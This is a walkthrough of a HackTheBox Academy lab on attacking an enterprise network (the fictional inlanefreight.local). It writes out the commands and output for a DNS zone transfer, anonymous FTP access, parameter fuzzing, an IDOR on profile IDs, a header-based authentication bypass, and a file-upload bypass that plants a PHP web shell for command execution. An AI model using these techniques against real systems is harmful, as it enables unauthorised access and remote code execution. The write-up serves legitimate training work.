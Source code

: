 ```yaml
---
title: HTBAcademy Attacking Enterprise Networks Walkthrough
date: 2025-03-14 00:00:01 +0800
categories: [HackTheBox]
tags: [HackTheBox]
---
```


# HTBAcademy Attacking Enterprise Networks Walkthrough

## First Flag

The first flag was found using the following command:

```sh
dig axfr inlanefreight.local @10.129.229.147
```

### Output:
```
; <<>> DiG 9.18.30-0ubuntu0.24.04.2-Ubuntu <<>> axfr inlanefreight.local @10.129.229.147
;; global options: +cmd
inlanefreight.local. 86400 IN SOA ns1.inlanfreight.local. dnsadmin.inlanfreight.local. 21 604800 86400 2419200 86400
inlanefreight.local. 86400 IN NS inlanefreight.local.
inlanefreight.local. 86400 IN A 127.0.0.1
blog.inlanefreight.local. 86400 IN A 127.0.0.1
careers.inlanefreight.local. 86400 IN A 127.0.0.1
dev.inlanefreight.local. 86400 IN A 127.0.0.1
flag.inlanefreight.local. 86400 IN TXT "HTB{DNs_ZOn3_Tr@nsf3r}"
gitlab.inlanefreight.local. 86400 IN A 127.0.0.1
ir.inlanefreight.local. 86400 IN A 127.0.0.1
status.inlanefreight.local. 86400 IN A 127.0.0.1
support.inlanefreight.local. 86400 IN A 127.0.0.1
tracking.inlanefreight.local. 86400 IN A 127.0.0.1
vpn.inlanefreight.local. 86400 IN A 127.0.0.1
```

---

## Second Flag

Found using an FTP anonymous login:

```sh
ftp anonymous@ip
get flag.txt
```

---

## Parameter Fuzzing

I used `ffuf` to discover parameters:

```sh
ffuf -u http://careers.inlanefreight.local:80/FUZZ?id=1 -w /home/kchen/SecLists/Discovery/Web-Content/burp-parameter-names.txt -mc 200-299,301,302,307,401,403,405,500
```

### Results:
```
apply        [Status: 200, Size: 16408, Words: 5625, Lines: 265, Duration: 84ms]
login        [Status: 200, Size: 9459, Words: 2752, Lines: 187, Duration: 159ms]
profile      [Status: 200, Size: 10148, Words: 3146, Lines: 195, Duration: 159ms]
register     [Status: 200, Size: 9754, Words: 2772, Lines: 191, Duration: 182ms]
```

I registered an account at:

```
http://careers.inlanefreight.local:80/register?id=1
```

Then, accessing:

```
http://careers.inlanefreight.local:80/profile?id=4
```

gave me the second flag:

```
HTB{8f40ecf17f681612246fa5728c159e46}
```

---

## Exploiting `dev.inlanefreight.local`

Used `ffuf` to discover PHP files:

```
dev.inlanefreight.local/login.php
```

The `GET` request was denied, but after testing various HTTP methods, `TRACK` worked. The request included a header:

```
X-Custom-IP-Authorization: 172.x.x.x
```

Setting it to `127.0.0.1` allowed me to bypass authentication.

---

## File Upload Exploit

I found an image upload feature but it only accepted `image/png`. To bypass this, I:

1. Uploaded a PNG file and recorded the HTTP request in BurpSuite.
2. Modified the file contents to a PHP web shell.
3. Changed the filename extension in BurpSuite to `.php`.
4. Resent the modified request.

The file was uploaded successfully to:

```
/uploads/screenshot.php
```

Executing commands via:

```
http://dev.inlanefreight.local/uploads/screenshot.php?cmd=id
```

---

## Finding the Next Flag

To locate flag files, I ran:

```sh
find / -type f -name "*flag.txt*"
```

Since this was a web shell, I had to URL encode the command before execution.

---
